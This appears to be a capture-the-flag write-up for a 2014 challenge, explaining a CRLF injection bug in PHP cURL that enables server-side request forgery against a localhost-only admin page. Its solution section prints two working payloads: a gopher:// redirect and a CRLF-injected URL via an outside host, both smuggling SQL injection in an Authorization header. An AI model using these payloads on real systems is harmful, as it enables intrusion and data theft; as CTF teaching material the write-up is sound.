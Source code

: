 # curl_story_part_1 aka. cURL Lovers

## Overview
This challenge is published on ~ Jan.2014 . Long time ago, since SSRF is not well-known like nowadays.

I've setup the challenge contains 2 parts:
1. frontend (index.php) recieves an URL from user.
2. backend (admin.php) can be accessed from `127.0.0.1` only.


## Bug
Was looking for a new idea for a challenge, I found out CLRF in PHP cURL (actually it caused by `libcurl`)

Few years later, I found this: https://hackerone.com/reports/73242

It's coincident. The reporter filed a report on Dec.2013.

And I reliazed... I found out 0day and put it in the challenge...



## Solution

### raz0r.name
```
<?php

header('Location: gopher://localhost:80/1GET%20%2f%5f%4d%4c%2f%63%68%61%6c%6c%73%2f%63%75%72%6c%5f%73%74%6f%72%79%5f%70%61%72%74%5f%31%2f%61%64%6d%69%6e%2e%70%68%70%20HTTP%2f1.1%0d%0aAuthorization:%20Basic%20' .    urlencode(base64_encode("_ML' or 1=1 union select flag,2 from flag limit 1-- -:admin' or 1=1-- -")).'%0d%0aCookie:demo%3ddemo%0d%0aHost:localhost%0d%0a%0d%0a');
```

### Paul Axe
```
Vector:
http://ctf.wargame.vn/_ML/challs/curl_story_part_1/?url=pwny.tk/curl.php?x%0d%0aAuthorization:%20Basic+J3VuaW9uIHNlbGVjdCBmbGFnLDIgZnJvbSBmbGFnIC0tIDE6MQ==%0d%0a
(My server side code:
<?php

header("Location: http://localhost/_ML/challs/curl_story_part_1/admin.php");
?>
)
```
